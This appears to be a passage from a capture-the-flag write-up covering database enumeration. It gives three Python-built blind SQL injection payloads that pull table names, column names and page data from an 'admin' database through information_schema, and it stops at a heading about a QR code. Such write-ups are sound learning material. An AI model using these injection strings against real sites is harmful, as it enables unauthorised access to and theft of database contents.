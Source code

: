 ### Database Enumeration

**Databases Discovered**:

![Database Names](images/Pasted%20image%2020251005170400.png)

**Tables in 'admin' Database**:
```python
sqli_url = main_url + "home' or substring((select group_concat(table_name) from information_schema.tables where table_schema='admin'),%d,1)='%s" % (pos, ch)
```

![Table Names](images/Pasted%20image%2020251005170821.png)

**Columns in 'pages' Table**:
```python
sqli_url = main_url + "home' or substring((select group_concat(column_name) from information_schema.columns where table_schema='admin' and table_name='pages'),%d,1)='%s" % (pos, ch)
```

![Column Names](images/Pasted%20image%2020251005171216.png)

**Data Extraction**:
```python
sqli_url = main_url + "home' or substring((select group_concat(pagename,0x3a,pagedata) from pages),%d,1)='%s" % (pos, ch)
```

![Data Extraction](images/Pasted%20image%2020251005172007.png)

### QR Code Discovery

The `tutorials-incomplete` page contained a QR code:
